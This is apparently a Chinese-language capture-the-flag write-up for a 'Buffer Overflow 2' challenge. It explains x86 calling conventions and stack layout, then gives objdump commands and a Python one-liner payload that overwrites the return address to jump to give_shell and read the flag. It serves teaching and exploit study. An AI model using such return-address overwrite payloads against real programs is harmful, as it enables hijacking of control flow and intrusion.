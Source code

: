 # Buffer Overflow 2
要成功使用buffer overflow來呼叫give_shell，必須知道x86的[calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions)
 * Calling function：
  1. push參數到stack上(reverse order)
  2. push RET位址(目前%eip)
  3. jump到function位址
 * Called function：
  1. push old frame pointer(%ebp)
  2. 把frame pointer(%ebp)設成目前stack指到的位置(%esp)
  3. push local變數
 * Returning function：
  1. reset prev stack frame：%esp = %ebp, %ebp = (%ebp)
  2. jump回RET位址：%eip = 4(%esp)
 ![image](buf_gen1.png)
 * x86是little-endian
解題步驟
 1. 使用gdb或objdump找到give_shell位址
```
$ objdump -d overflow2 | grep give_shell
080484ad <give_shell>:
```
 2. 了解目前stack長相
  * 用objdump 看assembly code
```
$ objdump -d bufferoverflow2
...
<vuln>
push %ebp
...
pushl %0x8(%ebp) ; arument of strcpy
...
push %eax; argument of strcpy
call <strcpy@plt>
...
ret
...
<main>:
push %eax ; ret addr
call 80484e2 <vuln>
...
```
  * 目前stack 長這樣：
  ```
  <ret addr>
  <old %ebp>
  <strcpy arg>
  <strcpy arg>
  <buf ...
  16 bytes>
  ```
 3. 取得flag
```
$ ./overflow2 $(python -c 'print "A"*16 + "A"*3*4 + "\xad\x84\x04\x08"')
$ ls
flag.txt    Makefile    overflow2   overflow2.c
$ cat flag.txt
controlling_%eip_feels_great
```
# 參考資料：
 * [駭客雜誌上的教學](http://phrack.org/issues/49/14.html#article)
